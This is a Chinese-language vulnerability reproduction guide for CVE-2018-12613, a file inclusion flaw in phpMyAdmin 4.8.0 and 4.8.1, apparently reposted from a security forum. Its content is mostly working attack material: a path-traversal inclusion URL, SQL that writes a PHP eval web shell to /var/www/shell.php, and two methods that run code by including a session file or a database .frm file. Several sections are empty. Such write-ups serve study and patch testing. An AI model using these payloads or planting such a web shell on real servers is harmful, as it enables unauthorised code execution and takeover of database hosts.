






# （CVE-2018-12613）Phpmyadmin 远程文件包含漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3082](https://www.zhihuifly.com/t/topic/3082)

# （CVE-2018-12613）Phpmyadmin 远程文件包含漏洞

## 一、漏洞简介

## 二、漏洞影响

phpMyAdmin 4.8.0和4.8.1受到影响。

## 三、复现过程

首先需要登录phpmyadmin

### payload

```
http://0-sec.org/index.php?target=db_sql.php%253f/../../../../../../phpStudy/使用说明.txt 
```



### 写入shell

#### 第一种姿势

##### 1、写入shell，测试语句：

```
SELECT '<?php phpinfo()?>' 
```



##### 2、查看自己的sessionid（cookie中phpMyAdmin的值）。(或者Bp抓包获取本地的cookie值也可以)



##### 补充代码

如果上述方法不行的话，则用以下代码

```
select '<?php @eval($_POST[abc]);?>' into outfile '/var/www/shell.php' 
```

##### 3、访问：

```
http://0-sec.org/index.php?target=db_sql.php%253f/../../../../../../../../phpStudy/tmp/tmp/sess_20f18hqcr2mc0nmq96vp920r6phc06v3 
```

#### 第二种姿势

##### 1、在数据表里面添加一句话(这里一点要用get！)



##### 2、此时会在phpStudyMySQLdata 对应数据库下生成一个frm文件（不同版本路径可能不一样）



##### 3、访问

```
http://0-sec.org/index.php?9ouu=phpinfo();&target=db_sql.php%253f/../../../../../../phpStudy/MySQL/data/9ouu/test.frm 
```

